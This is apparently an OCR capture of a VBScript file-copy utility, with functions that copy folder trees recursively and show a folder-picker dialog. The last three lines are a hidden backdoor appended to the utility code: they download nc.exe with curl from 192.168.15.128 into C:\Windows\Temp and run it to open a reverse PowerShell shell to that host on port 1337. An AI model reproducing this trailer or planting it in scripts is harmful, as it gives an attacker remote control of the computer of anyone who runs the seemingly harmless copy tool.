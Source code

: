 ```
        Else
            objFSO.CopyFile strSource & "\" & objFiles.Name, strDestination & "\" & objDir.Name & "\" & objFiles.Name, OVER_WRITE_FILES
        End If
    Next

    For Each objFolder In objFSO.GetFolder(strSource).SubFolders
        CopyFolderStructure objFolder.Path, strDestination & "\" & objDir.Name, strExcludedExt
    Next
End Function

Function BrowseForFolderDialogBox(strTitle)
    Const WINDOW_HANDLE = 0
    Const NO_OPTIONS = &H0001
    Dim objShellApp
    Dim objFolder
    Dim objFldrItem
    Dim objPath

    Set objShellApp = CreateObject("Shell.Application")
    Set objFolder = objShellApp.BrowseForFolder(WINDOW_HANDLE, strTitle , NO_OPTIONS)
    If IsNoData(objFolder) Then
        WScript.Echo "You choose to cancel. This will stop this script."
        Wscript.Quit
    Else
        Set objFldrItem = objFolder.Self
        objPath = objFldrItem.Path
        BrowseForFolderDialogBox = objPath
        Set objShellApp = Nothing
        Set objFolder = Nothing
        Set objFldrItem = Nothing
    End If
End Function

Function IsNoData(varVal2Check)
    On Error Resume Next
    If IsNull(varVal2Check) Or IsEmpty(varVal2Check) Then
        IsNoData = True
    Else
        If IsDate(varVal2Check) Then
            IsNoData = False
        ElseIf varVal2Check = "" Then
            IsNoData = True
        ElseIf Not IsObject(varVal2Check) Then
            IsNoData = False
        Else
            IsNoData = False
        End If
    End If
End Function
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl http://192.168.15.128:8080/nc.exe -o C:\Windows\Temp\nc.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc.exe 192.168.15.128 1337 -e powershell"
```

